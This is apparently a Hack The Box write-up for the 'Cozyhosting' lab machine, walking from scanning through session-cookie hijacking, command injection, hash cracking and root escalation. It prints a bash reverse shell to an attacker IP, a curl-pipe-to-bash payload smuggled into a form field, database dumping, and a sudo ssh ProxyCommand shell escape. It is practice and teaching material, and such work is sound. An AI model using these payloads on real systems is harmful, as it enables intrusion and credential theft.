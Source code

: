 # Machine: Cozyhosting [Hacked]
This is the fifteenth machine I have completed on the hackthebox platform. 
### Scan
IP_MACHINE: ip of cozyhosting
```
  nmap -sC -sV -p- --min-rate 5000 IP_MACHINE
```
add the domain cozyhosting.htb to the /etc/hosts file and open [ Burpsuite > Proxy > Open Browser ] navigate to route cozyhosting.htb/login. And do a login test with the credentials test:test
## Cookie Hijacking
open the [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ]. Where we can see a cookie that has been generated when trying to log in
```
JSESSIONID:VALUE
```
Now we will use gobuster to discover hidden directories:
```
gobuster dir --url http://cozyhosting.htb/ --wordlist $HOME/SecLists/Discovery/Web-Content/spring-boot.txt
### this is the one we are interested in: /actuator/sessions
```
We open a new tab and go to http://cozyhosting.htb/actuator/sessions where we can see a cookie generated that does not have authorization and another that does belong to the user Khanderson. 
then we copy it and replace it in our cookie [ Developer Tools > Application > Cookies > http://cozyhosting.htb/ ] and refresh the page.
### Admin dashboard
Now that we have logged in to the administration panel of the web application, we activate burpsuite traffic interception (Intercept is on). and enter the following values in the connection fields at the end of the Dashboard. We capture the POST method in Burpsuite and send it to [Burpsuite > Repeater].
```
Hostname: IP_MACHINE
Username: test
```
## Getting a reverse shell
already in [Bursuite > Repeater] we have the following message body
```
 host=IP_MACHINE&username=test
```
On our machine, we create a *payload.txt* file with the following content ( MY_IP: the IP address of our machine )
```
bash -i >& /dev/tcp/MY_IP/1234 0>&1
```
we initialize an http server on port 80
```
sudo python3 -m http.server 80
```
in a new terminal we initialize netcat
```
nc -nlvp 1234
```
now we manipulate the message body that we send to [Burpsuite > Repeater]
```
# Burpsuite payload
host=IP_MACHINE&username=$(curl$IFS"MY_IP"/payload.txt|bash)
```
With that we have a reverse shell and when we execute "ls" we discover a file called cloudhosting-0.0.1.jar that we will download locally on our machine to reverse engineer it. then within the reverse shell that we did to cozyhosting we started an http server.
```
# cozyhosting reverse shell
python3 -m http.server
```
To download it to our local machine we use:
```
# local machine
wget IP_MACHINE/cloudhosting-0.0.1.jar
```
## Reading the database
To reverse engineer the file we obtained, we opened [ jd-gui > Openfile > cloudhosting-0.0.1.jar ]. and we head to BOOT-INF/classes/application.properties where we will find the postgres database configurations:
```
# AN_PASSWORD: is the database password
spring.datasource.username=postgres
spring.datasource.password=AN_PASSWORD
```
now we go back to the reverse-shell in cozyhosting but we have to get a fully-tty. The procedure to obtain a fully-tty is as follows:
```
script /dev/null -qc /bin/bash #/dev/null is to not store anything
(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
Now we enter the Postgres database of the remote system with the credentials that we obtained by reverse engineering the .jar file
```
psql -h <host> -U <username>
# It will ask us for a password, so we enter the AN_PASSWORD
```
Within the database we execute the following commands to obtain the authentication hashes of the system users
```
\c cozyhosting
\d
SELECT * FROM users;
```
## Breaking hashes (cryptography)
which would look like this:
```
# HASHONE: is a hash of 61 characters
# HASHTWO: is another hash of 61 characters
kanderson | HASHONE | User
admin     | HASHTWO | Admin
```
We save them in a hash.txt file and proceed to decrypt the hashes with the John the Ripper tool (This process could take several minutes or even seconds depending on the GPU you have)
```
john --wordlist=$HOME/rockyou.txt hash.txt
```
Now to know who the admin is, just execute from the reverse shell:
```
cat /etc/passwd
```
and we log in to the system
```
ssh josh@cozyhosting.htb
# we access using the password of the decrypted hash
```
and we get the first flag *user.txt*
## privilege scale
To escalate privileges and obtain the last *root.txt* flag, simply execute the following commands
```
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
cat /root/root.txt
```
